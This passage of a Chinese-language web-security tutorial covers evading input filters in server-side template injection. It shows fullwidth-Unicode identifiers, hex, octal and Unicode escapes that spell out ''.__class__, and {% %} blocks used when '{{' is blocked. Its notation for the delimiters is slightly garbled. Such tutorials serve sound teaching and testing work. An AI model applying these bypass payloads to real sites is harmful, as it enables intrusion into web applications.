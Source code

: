   ```python
   >>> ｏｐｅｎ
   >>> <function io.open(file, mode='r', buffering=-1, encoding=None, errors=None, newline=None, closefd=True, opener=None)>
   
   >>> ＿＿ｉｍｐｏｒｔ
   >>>  File "<ipython-input-2-78bf7df85c1c>", line 1
       ＿＿ｉｍｐｏｒｔ
              ^
   SyntaxError: invalid character in identifier
   
   
   >>> __ｉｍｐｏｒｔ__
   >>>  <function __import__>
   ```

   7.利用模板渲染编码绕过：（部分版本）
   
   ​     7.1：16进制（`\xXX`）绕过。
   
   ```python
   ''['\x5F\x5F\x63\x6C\x61\x73\x73\x5F\x5F']  #''.__class__
   ```
   
   ​     7.2：8进制（`\OOO`）绕过。
   
   ```python
   ''['\137\137\143\154\141\163\163\137\137']  #''.__class__
   ```
   
   ​     7.3：unicode（`\uXXXX`or`\UXXXXXXXX`）绕过。
   
   ```python
   \uXXXX:
       ''['\u005F\u005F\u0063\u006C\u0061\u0073\u0073\u005F\u005F']  #''.__class__
   \UXXXXXXXX:
       ''['\U0000005F\U0000005F\U00000063\U0000006C\U00000061\U00000073\U00000073\U0000005F\U0000005F']  #''.__class__
   ```
   
   

###### 5)过滤了‘{ {’or‘} }’

可以用`{ % % }`来代替`{ {} }`，但要注意两者区别： `{ {} }`是用来变量取值，`{ { % % } }`是用来控制结构。 

```python
{% if '1'=='code' %}lexsD6{% endif %}
```



## 0x0参考文献

1.https://blog.csdn.net/answer3lin/article/details/86572575

2.https://docs.python.org/zh-cn/3/

3.https://www.anquanke.com/post/id/188172#h3-2



